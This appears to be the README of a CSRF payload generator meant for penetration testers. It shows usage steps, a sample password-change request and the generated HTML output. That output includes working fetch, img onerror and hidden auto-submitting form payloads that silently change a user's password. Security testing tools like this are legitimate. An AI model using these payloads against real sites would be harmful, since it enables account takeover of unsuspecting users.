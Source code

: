 # csrf-payload-generator
CSRF Payload Generator A powerful and flexible Cross-Site Request Forgery (CSRF) Payload Generator designed for security enthusiasts and penetration testers. This tool automates the generation of CSRF attack payloads based on HTTP requests.

Features
* Supports Multiple Payload Methods:
    
    - fetch: Uses the Fetch API to execute CSRF requests programmatically.
    - onerror: Leverages the onerror event of an empty image tag for CSRF execution.
    - form: Auto-submitting HTML forms for CSRF attacks.

* HTML Output:
    - Generates an easy-to-use HTML file containing all the CSRF payloads for testing.

* How It Works
    - Input: Supply a raw HTTP request 
    - Process: The tool parses the HTTP request, extracts relevant data, and generates payloads.
    - Output: Produces an HTML file containing the generated payloads for execution.

* Usage
  
  1 - Clone the repository:
  
---
  ```
git clone https://github.com/Abutalib-Zarban/csrf-payload-generator.git

```
 2 - Navigate to the directory:
  ```
cd csrf-payload-generator

```

 3 - Run the script with a  HTTP request file:

```
python3 csrf_generator.py request.txt


```

4- Select the desired CSRF payload method:

    
    1: fetch
    2: onerror
    3: form
    4: All methods
View the output in the csrf_payloads.html file.


* Requirements
    - Python 3.x: The script is written in Python and requires Python 3.x.

 
---------------------------
* Request sample :
```
  POST /user/change-password HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Cookie: sessionid=abcd1234efgh5678ijkl9012mnop3456

new_password=newpassword456
```

----------------------------
* Tool Output :

  
```

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF Payloads</title>
</head>
<body>
    <h1>Generated CSRF Payloads</h1>

    <h2>Fetch Payload</h2>
    <div>
        <pre>
<script>
fetch("http://www.example.com/user/change-password", {
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    body: "new_password=newpassword456xyy"
});
</script>
</pre>
    </div>
    <hr>

    <h2>Onerror Payload</h2>
    <div>
        <pre>
<img src="" onerror="fetch('http://www.example.com/user/change-password', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    }, body: 'new_password=newpassword456xyy'
})" style="display:none;">
</pre>
    </div>
    <hr>

    <h2>Form Payload</h2>
    <div>
        <pre>
<form action="http://www.example.com/user/change-password" method="POST" target="hidden_iframe">
    <input type="hidden" name="new_password" value="newpassword456xyy">
    <script>
        document.forms[0].submit();
    </script>
</form>
<iframe name="hidden_iframe" style="display:none;"></iframe>
</pre>
    </div>
    <hr>

</body>
</html>

```

------
* Disclaimer
This tool is intended for educational purposes and authorized security testing only. Misuse of this tool may result in legal consequences. Always obtain proper permission before conducting any tests.
 

